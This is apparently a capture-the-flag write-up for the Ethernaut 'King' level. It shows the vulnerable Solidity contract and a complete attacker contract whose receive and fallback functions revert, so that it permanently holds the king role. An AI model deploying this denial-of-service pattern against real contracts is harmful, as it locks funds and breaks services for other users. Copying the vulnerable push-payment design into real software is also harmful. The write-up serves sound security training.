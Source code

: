 # [9. King](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

The ponzi starts with 0.001 ether. We can exploit the game by giving an greater or equal ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
    revert("Im the king!");
  }

  fallback () external payable {
    revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
    (bool sent, ) = _to.call{value: msg.value}("");
    require(sent, "forwarded call failed");
  }

}
```

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

**A note on Call vs. Transfer**: We used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas may not always be enough for the code to run on their side; so we must forward all our gas to them with `call`.

